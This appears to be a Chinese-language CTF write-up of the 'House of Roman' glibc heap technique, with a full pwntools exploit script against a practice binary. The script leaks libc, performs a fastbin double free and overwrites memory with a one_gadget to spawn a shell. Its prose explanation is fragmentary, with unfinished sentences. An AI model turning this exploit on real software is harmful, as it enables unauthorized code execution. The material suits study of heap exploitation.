


# house of roman

通过覆盖unsorted bin 的fd的低2字节对glibc上某个结构进行1/16的一个爆破

这里我们主要用的方法就是使用覆盖参数的的方法来把数据的程序地址和libc地址给覆盖掉

是的我们使用一个类似与brop的方法得到一个权限

这个方法主要的好处就是它可以不需要libc的地址来构造一个地址的程序并且这个方法是在后面的io_file中有一个使用但是如果需要使用到onegadget的话那还是要提前泄露libc地址的

这里我们使用的势力程序是使用one_gadget的方式来使用

因此我们还是要使用的libc地址


由于之前说过有一个爆破数据的地址而这个就是和我们是否开来aslr有着关系

如果程序中开启了aslr那么他的程序地址和libc的地址就会随机化使得他的后两个字节中的前一个字节不确定，但是由于我们只用爆破一个字节因此这个字节就有1/16的几率被我们所爆破出来

因此这里的手法就是这样的

而其他的手法就是用doulefree和其他的方法



这是刚开始的一个步骤

后面就要进行一个double free让



因此我们的代码就是要使用了

```python
from pwn import *


elf = ELF("./pwn")
libc = ELF("./libc.so.6")
context(arch=elf.arch, os=elf.os)
context.log_level = 'debug'
context.timeout = 1
p = process([elf.path])

def add_chunk(index, size):
    p.sendafter("choice:", "1")
    p.sendafter("index:", str(index))
    p.sendafter("size:", str(size))


def delete_chunk(index):
    p.sendafter("choice:", "2")
    p.sendafter("index:", str(index))


def edit_chunk(index, content):
    p.sendafter("choice:", "3")
    p.sendafter("index:", str(index))
    p.sendafter("length:", str(len(content)))
    p.sendafter("content:", content)


def show_chunk(index):
    p.sendafter("choice:", "4")
    p.sendafter("index:", str(index))


while True:
    p = process([elf.path])
    try:
        add_chunk(0, 0x200)
        add_chunk(1, 0x200)
        delete_chunk(0)
        show_chunk(0)

        p.recv()
        libc.address = u64(p.recv(6)[-6:].ljust(8, b'\x00')) - 0x39bb78
        info("libc base:" + hex(libc.address))
        delete_chunk(1)

        add_chunk(0, 0x68)
        add_chunk(1, 0x98)
        add_chunk(2, 0x68)

        delete_chunk(1)
        add_chunk(3, 0x28)
        add_chunk(1, 0x68)
        edit_chunk(1, p16(0xbaed))

        delete_chunk(2)
        delete_chunk(0)
        delete_chunk(2)

        add_chunk(0, 0x68)
        edit_chunk(0, p8(0xa0))

        add_chunk(0, 0x68)
        add_chunk(0, 0x68)
        add_chunk(0, 0x68)
        add_chunk(0, 0x68)

        one_gadget = [0x3f3e6, 0x3f43a, 0xd5c07][2] + libc.address
        edit_chunk(0, b'a' * 0x13 + p64(one_gadget))
        add_chunk(0, 0x100)
        p.recvline(timeout=1)

        p.interactive()
    except KeyboardInterrupt:
        exit(0)
    except:
        p.close()


# gdb.attach(p)

```

